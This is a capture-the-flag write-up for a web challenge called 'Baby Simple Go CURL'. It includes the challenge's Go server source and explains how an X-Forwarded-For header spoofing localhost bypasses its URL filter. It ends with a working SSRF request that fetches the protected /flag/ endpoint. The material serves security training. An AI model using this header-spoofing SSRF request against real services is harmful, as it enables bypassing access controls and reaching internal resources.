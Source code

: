 # Baby Simple Go CURL

Source: Cookie Arena

Tools: Burpsuite

Technique: SSRF

Fields: Web

- main.go
    
    ```go
    package main
    
    // khai báo thư viện
    import (
    	"errors"
    	"fmt"
    	"io/ioutil"
    	"log"
    	"net/http"
    	"os"
    	"strings"
    
    	"github.com/gin-gonic/gin"
    )
    
    // Hàm này được dùng để kiểm tra nếu có nhiều hơn 1 redirect hoặc nếu địa chỉ IP không phải là 127.0.0.1.
    func redirectChecker(req *http.Request, via []*http.Request) error {
    	reqIp := strings.Split(via[len(via)-1].Host, ":")[0]
    
    	if len(via) >= 2 || reqIp != "127.0.0.1" {
    		return errors.New("Something wrong")
    	}
    
    	return nil
    }
    
    func main() {
    	//đọc file flag.txt
    	flag, err := os.ReadFile("/flag.txt")
    	if err != nil {
    		panic(err)
    	}
    
    	//cấu hình server
    	r := gin.Default()
    
    	r.LoadHTMLGlob("view/*.html")
    	r.Static("/static", "./static")
    
    	//display index.html khi user truy cập vào /
    	r.GET("/", func(c *gin.Context) {
    		c.HTML(http.StatusOK, "index.html", gin.H{
    			"a": c.ClientIP(),
    		})
    	})
    
    	// Khi truy cập vào /curl/ ....
    	r.GET("/curl/", func(c *gin.Context) {
    		client := &http.Client{
    			CheckRedirect: func(req *http.Request, via []*http.Request) error {
    				return redirectChecker(req, via)
    			},
    		}
    
    		reqUrl := strings.ToLower(c.Query("url"))
    		reqHeaderKey := c.Query("header_key")
    		reqHeaderValue := c.Query("header_value")
    		reqIP := strings.Split(c.Request.RemoteAddr, ":")[0]
    		fmt.Println("[+] " + reqUrl + ", " + reqIP + ", " + reqHeaderKey + ", " + reqHeaderValue)
    
    		if c.ClientIP() != "127.0.0.1" && (strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%")) {
    			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    			return
    		}
    
    		req, err := http.NewRequest("GET", reqUrl, nil)
    		if err != nil {
    			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    			return
    		}
    
    		if reqHeaderKey != "" || reqHeaderValue != "" {
    			req.Header.Set(reqHeaderKey, reqHeaderValue)
    		}
    
    		resp, err := client.Do(req)
    		if err != nil {
    			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    			return
    		}
    
    		defer resp.Body.Close()
    
    		bodyText, err := ioutil.ReadAll(resp.Body)
    		if err != nil {
    			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    			return
    		}
    		statusText := resp.Status
    
    		c.JSON(http.StatusOK, gin.H{
    			"body":   string(bodyText),
    			"status": statusText,
    		})
    	})
    
    	//Khi truy cập vào /flag/ --> kiểm tra nếu địa chỉ IP của client là 127.0.0.1 (localhost) thì sẽ trả về nội dung của file flag.txt.
    	r.GET("/flag/", func(c *gin.Context) {
    		reqIP := strings.Split(c.Request.RemoteAddr, ":")[0]
    
    		log.Println("[+] IP : " + reqIP)
    		if reqIP == "127.0.0.1" {
    			c.JSON(http.StatusOK, gin.H{
    				"message": flag,
    			})
    			return
    		}
    
    		c.JSON(http.StatusBadRequest, gin.H{
    			"message": "You are a Guest, This is only for Host",
    		})
    	})
    
    	r.Run("0.0.0.0:1337")
    }
    ```
    

> Idea:
The request made using the endpoint `/curl/` checks whether the requesting IP is `127.0.0.1`, the URL constains the words `flag` or `curl` (to prevent chains of requests), and disallow redirects by defining a `redirectChecker` function.

BUT!!! Look at this piece of code:
> 

```php
if c.ClientIP() != "127.0.0.1" && (strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%")) { // CANNOT HAVE flag, curl or %
    c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    return
}
```

> The condition implies that if the client IP is `127.0.0.1` it is not necessary to check whether the URL contains one of the blocked words.

Let’s try to create a request that utilizes headers like ***X-Forwarded-For*** to deceive the server into thinking that the packet is from localhost.
> 

This is an example request that can retrieve the flag:

```php
GET /curl/?url=http://127.0.0.1:8080/flag/&header_key=&header_value= HTTP/1.1
Host: <server ip>:<server port>
X-Forwarded-For: 127.0.0.1
Connection: close
```

- Gửi nhận request nhận response nhận về sẽ trông như thế này:

![image.png](image.png)
